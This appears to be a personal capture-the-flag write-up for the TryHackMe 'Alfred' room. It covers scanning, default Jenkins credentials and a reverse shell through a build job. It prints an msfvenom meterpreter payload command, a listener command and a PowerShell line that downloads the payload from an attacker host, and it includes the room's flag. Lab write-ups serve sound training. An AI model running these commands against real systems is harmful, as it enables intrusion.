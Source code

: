 #+TITLE: THM: Alfred
#+DATE: <2023-11-30 14:34>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

* Intro: Be Yourself                                               :noexport:

Sometimes clashing with others, even temporarily, is unavoidable. 


* Intro
This time, other than just populating ~/etc/hosts~ with ~alfred.thm~, I
also ran the following, to help me use my /standardized/ notes.
 #+NAME: add to all shell
 #+begin_src bash
 echo "export IP=alfred.thm" >> ~/.bashrc
 #+end_src

* Reconnaissance
Simple nmap scan to find our open tcp ports:
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
#+end_src
 
And this gives us:
- [ ] 80 (HTTP)
- [ ] 3389 (TCpwrapped) - Alfred
- [ ] 8080 (HTTP)

** Web Analysis: Port 80 Web Server
- Minimal starting web page, started gobuster while trying the usual
  spots. Nothing of interest came up
- Gobuster with big revealed nothing

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
#+end_src

** Web Analysis: Port 8080 Web Server
- Jenkins entry portal
- Robots.txt disallows everything on root
- The password is at this point unknown
  - I searched online for the default (and popular) credentials:
    - Admin:password (did not work)
    - Admin:admin (did not work)
    - some other combs
    - found the actual one

      #+begin_comment
admin:admin
      #+end_comment
#+caption: Jenkins Entry portal
[[file:images/Reconnaissance/20231130_145031_screenshot.png]]



#+begin_quote
At this point I viewed another writeup, to see how they had solved
that step, since my solution was at best sketchy. Hydra bruteforce was
another, better way to go.
#+end_quote

* Using Alfred
Since I already knew that Alfred is a CI/CD server, even though I had
never worked on it, it was relatively simple:
- I knew there had to be a way to build the projects, and sure enough
  that action was *directly* modifiable.

  #+caption: Build configuration screen
[[file:images/Using_Alfred/20231201_231517_screenshot.png]]

At this point, it is obvious that we need to get initial foothold
through a reverse shell of some kind. I saw the room's suggestion of
uploading and then executing one there, but I first wanted to try it
my way.

Using [[https://www.revshells.com/][online rev shell generator]], I got a reverse shell, but it did
not exactly look beautiful. Python did not exist on the system, which
made me unable to use the now-standard, pty spawn methodology.
However, that did not stop me from getting the flag. Unlikeable is not unusable.

 #+begin_comment
79007a09481963edf2e1321abd9ae2a0
 #+end_comment

* Upgrading our shell
The room then suggests that we get a meterpreter shell, which I again,
trying to avoid the /walkthrough/ character of it, did my way.

** MSFvenom
Just a simple meterpreter reverse shell:

#+NAME: MSFvenom reverse shell generation
#+begin_src cmd
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.67.161 LPORT=6969 -f exe -o reverse.exe
#+end_src


** Meterpreter listener
Get the listener up and running

#+NAME: MSFvenom reverse shell generation
#+begin_src cmd
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.67.161; set lport 6969; exploit"
#+end_src

** Downloading File
My experience with windows is quite limited and that's why I had to go
into a little bit more research to get this over with :(

Having found an interesting article in the [[http://blog.commandlinekungfu.com/2009/11/episode-70-tangled-web.html][Command Line Kung Fu]]
blog, I started with the following
#+begin_src cmd
powershell -c '(New-Object System.Net.WebClient).DownloadFile("http://10.10.67.161:8000/reverse.exe","c:\Users\bruce\reverse.exe")'
#+end_src

But it did not work. Even though it did not return any error codes, I
could see in my simple python server that no requests had been made.
Evidently it did not need that many modifications to work, it is just
that I may have used a syntax that resembled way too much this
procedure in Linux.

* Privilege escalation
Sadly ~getsystem~ works perfectly, and we get ~NT AUTHORITY\SYSTEM~,
without it being necessary to do anything.

